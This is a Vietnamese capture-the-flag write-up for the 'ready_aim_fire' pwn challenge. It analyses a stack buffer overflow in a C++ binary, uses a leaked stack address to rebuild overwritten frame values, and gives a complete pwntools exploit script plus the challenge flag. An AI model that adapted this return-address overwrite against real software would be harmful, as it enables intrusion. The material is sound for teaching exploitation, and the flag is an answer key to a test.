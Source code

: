 # Challenge: ready_aim_fire
## Description
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/8f6e1ff9-b5ec-4bcd-85c0-f4e11b7e354c)
## Source
> ready_aim_fire

> ready_aim_fire.cpp

> Dockerfile

## Solution
Hãy kiểm tra file thực thi với checksec

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/bc7c8331-3bae-41d0-a3a8-11b10230ac9e)

Tuyệt vời, không canary, không PIE.

Để xem chúng ta có gì trong file .cpp

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/fe05f5e3-75bb-4285-a0ad-7f65cccb6fdd)

Để ý ở dòng thứ 60, chương trình sẽ in ra địa chỉ của biến cục bộ target_assist -> Leak RBP


Assembly code:

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/b6652a42-5998-4769-89b6-49aeb1dd361c)

Tức là chương trình sẽ in ra rbp-0x14 (với var_14 là -0x14).


OK, tiếp theo hãy xem phần tiếp theo: try catch với hàm fire_weapon():

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/3f77ed4f-1221-46ef-b6c3-3dc551a8014d)

Phần hay ho chính là ở **Canon::fire()**. Nó cho phép chúng ta nhập bao nhiêu tùy thích (cho đến khi gặp kí tự newline).
Khi số kí tự nhập vào lớn hơn 32 thì nó chỉ raise exception, đưa chúng ta về hàm main để xử lí exception chứ không exit chương trình.
Chúng ta có thể lợi dụng lỗi Buffer Overflow này để ghi đè địa chỉ trả về (saved RIP or Return address) của hàm main thành địa chỉ của print_flag().
Ok, hãy thử bằng GDB

Hãy nhập thử 32 kí tự kí tự "a" xem điều gì xảy ra (set breakpoint tại 1 điểm nào đấy trước khi nó trả về hàm main để có thể quan sát stack)
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/9cff1199-2454-446c-8226-f82bc2e5ff93)

Địa chỉ chương trình **leak** ra cho chúng ta (rbp-0x14):
> 0x7ffdf365982c

Bạn có thể thấy LSB của giá trị lưu ở địa chỉ 0x00007ffdf36597e0 (**+0x0040**) là 0x20, tức là 32 kí tự đã nhập vào.
Input của chúng ta sẽ bắt đầu từ **+0x0044** (Viết thế này cho ngắn ^^).
Địa chỉ được leak ra cho chúng ta: **0x7ffdf365982c** sẽ là **+0x008c**
Suy ra cái rbp "của" hàm main chính là **+0x00a0** và return address của hàm main sẽ được lưu ở địa chỉ **+0x00a8**

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/45719a90-9f9c-403c-a4d4-ef12ff468208)


Mục tiêu của chúng ta chính là ghi đè giá trị ở địa chỉ **+0x00a8** thành địa chỉ của hàm **print_flag()** (địa chỉ **0x4023e6**).
Khi làm đến đây thì tôi nghĩ là, thế cần gì phải leak 1 cái địa chỉ (rbp-0x14) như trên nhỉ, chỉ cần dùng gdb để debug xong tính offset để ghi đè là xong.
Nhưng không, đời không như là mơ, khi tôi thử ghi đè: ví dụ 1 đống kí tự "a" cho đến khi đến địa chỉ **+0x00a8**. Bùm, lỗi tùm lum luôn.
Tôi nghĩ là nó còn liên quan đến những hàm khác, những stack frame khác nữa. Ví dụ như ở **+0x0070** và **+0x0078**, nếu tôi ghi đè những byte linh tinh vào đây là không quay về main được :))

Tôi đã từng đọc ở đâu đó nói rằng: Những thứ đề bài cho thì lúc nào cũng có một tác dụng nào đấy, chỉ là mình chưa biết thôi.
Đúng vậy, đã đến lúc tận dụng thứ mà chương trình leak ra cho chúng ta:
> 0x7ffdf365982c

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/aac73669-6dd1-40fa-9b3a-4a885b8c951b)


Bạn có thể debug vài lần để thấy điều này: Những giá trị màu tím (giá trị ở địa chỉ **+0x0068**, **+0x0070** và **+0x0098**) có độ chênh lệch (hmm có thể gọi là offset) không đổi với giá trị được chương trình leak ra.
Ví dụ:
> offset1 = (giá trị tại "**+0x0068**") - leak_addr = 0x7ffdf3659958-0x7ffdf365982c = 0x12c

> offset2 = (giá trị tại "**+0x0070**") - leak_addr = 0x7ffdf3659840-0x7ffdf365982c = 0x14

Với giá trị 0x4026be ở địa chỉ **+0x0078**, là một địa chỉ tĩnh nên không đáng lo.
 Lưu ý là khi remote thì leak_addr sẽ khác nhau nên chúng ta sẽ phải dùng offset để tính toán các giá trị ở các địa chỉ **+0x0068**, **+0x0070** và **+0x0098**

Mục đích là để giữ nguyên các các giá trị "nhạy cảm" trên các địa chỉ này, tránh xảy ra lỗi.

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/d6711859-6097-4fbf-bd8f-59f3d3550aa8)

Dưới đây là chia sẻ của tác giả ^^:

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/fe0ce23d-7ed5-497c-a155-e53ad03b8679)



 Code giải:

 ```python
from pwn import *

#pwn/ready_aim_fire 
#UMDCTF{h0p3fu11y_th3_c++_pwn_w4snt_t00_h0rr1bl3}



context.binary = exe = ELF("./ready_aim_fire")

p = process(exe.path)

#p = remote("challs.umdctf.io", 31008)
p.recvuntil("laser cannon!\n")
leak_address = int(p.recvline()[:-1],16)
print(leak_address)

#payload = b"a"*52+p64(0x48)+(104-60)*b"b"
#payload = b"A"*52 + p64(0x4023E6)
payload = b"a"*36
offset_1 = 0x7ffdf3659958-0x7ffdf365982c
offset_2 = 0x7ffdf3659840-0x7ffdf365982c

overwrite_1 = offset_1 + leak_address
overwrite_2 = offset_2 + leak_address

payload += p64(overwrite_1)
payload += p64(overwrite_2)

payload += p64(0x4026be)

payload += p64(0)
payload += p64(0)
payload += p64(0)

payload += p64(overwrite_1)
payload += p64(0x1)
payload += p64(0x4023E6) ## Address of print_flag()


p.sendline(payload)

p.interactive()
```

 
